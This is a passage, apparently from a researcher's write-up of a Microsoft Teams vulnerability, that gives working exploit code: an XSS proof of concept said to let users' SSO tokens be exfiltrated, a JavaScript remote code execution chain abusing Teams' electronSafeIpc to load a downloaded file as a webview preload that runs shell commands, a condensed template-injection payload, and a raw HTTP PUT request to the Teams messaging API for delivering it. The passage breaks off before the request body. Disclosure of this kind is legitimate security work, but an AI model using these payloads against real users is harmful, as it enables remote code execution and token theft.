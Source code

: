 this will log user's local storage as a XSS PoC.

**no further actions are necessary. all users within this chat will start logging their SSO tokens which can be exfiltrated**.

you can verify this by checking development tools in either Microsoft Teams desktop or any browser.

## Remote code execution & payload

A novel remote code execution payload was developed, which bypasses all restrictions currently implemented (remote require, node integration, webview preload filtering etc.) in Microsoft Teams desktop and should work even if `contextIsolation` was enabled.

```javascript
cmd = `open /Applications/Calculator.app` // change to windows/linux command as required

stage1 = `data:text/plain,cp=require('child_process');cp.exec('${cmd}')`; // create a virtual file to download
this.electronSafeIpc.send(`desktopFileDownload`, stage1); // request to download file

// implement an event handler when files downloaded to trigger payload
this.electronSafeIpc.on(`desktop-file-download-finished`, (_, fileinfo) => { 
        f = fileinfo.uniqueFile.filePath; // event gives us file path which we don't know beforehand
        
        // create a new webview mockup - window with a webview tag and our virtual, downloaded file as preload
        stage2 = `data:text/html,<webview src='about:blank' preload='file:///${f}'></webview>`
        this.electronSafeIpc.send(`allowWindowOpenUrl`, stage2); // abusing MS Teams IPC API to allow above URL
        this.w = window.open(stage2); // URL gets opened, webview gets created with our virtual, downloaded file preload
        setTimeout(()=>{this.w.close()},1000) // not necessary, but let's close the custom window
    }
)
```

Shortened version for HTTP PUT request and improved to execute only once per reload:

```
{{['if(typeof mentiontime==`undefined`){mentiontime=1;stage1=`data:text/plain,cp=require(\\\"child_process\\\");cp.exec(\\\"open /System/Applications/Calculator.app\\\")`;this.electronSafeIpc.send(`desktopFileDownload`,stage1);this.electronSafeIpc.on(`desktop-file-download-finished`,(_,fileinfo)=>{f=fileinfo.uniqueFile.filePath;stage2=`data:text/html,<webview src=\\\"about:blank\\\" preload=\\\"file:///${f}\\\"></webview>`;this.electronSafeIpc.send(`allowWindowOpenUrl`,stage2);this.w=window.open(stage2);setTimeout(()=>{this.w.close()},2000)})}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}
```

Full HTTP PUT request with RCE payload:
```
PUT /v1/users/ME/conversations/19%3A9bc6400d2fc7443487491898c6803e46%40thread.tacv2/messages/1598607494949 HTTP/1.1
Host: emea.ng.msg.teams.microsoft.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authentication: ...snip...
ClientInfo: os=macos; osVer=10; proc=x86; lcid=en-us; deviceType=1; country=us; clientName=skypeteams; clientVer=1415/1.0.0.2020080725; utcOffset=+03:00
BehaviorOverride: redirectAs404
Content-Length: 1174


```